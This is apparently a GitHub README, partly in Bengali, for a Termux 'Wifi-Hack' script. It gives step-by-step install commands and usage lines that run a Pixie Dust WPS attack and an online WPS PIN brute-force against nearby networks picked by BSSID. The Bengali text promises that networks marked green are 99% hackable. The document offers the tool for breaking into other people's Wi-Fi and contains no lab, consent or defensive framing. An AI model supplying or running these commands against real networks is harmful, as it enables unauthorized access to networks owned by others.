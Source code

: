 ## Wifi_Hack
### Hack WIfi Using Termux! (Need Rooted Device )

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install :

```bash
$ pkg update && pkg upgrade
$ pkg install git python
$ apt update && apt upgrade
$ pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage 
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
$ cd Wifi-Hack
$ chmod +x fück-wifi.py

এরপর Wifi অফ করে
$ sudo python fück-wifi.py -i wlan0 -K

আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
পরের বার Tool অপেন করতে 
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
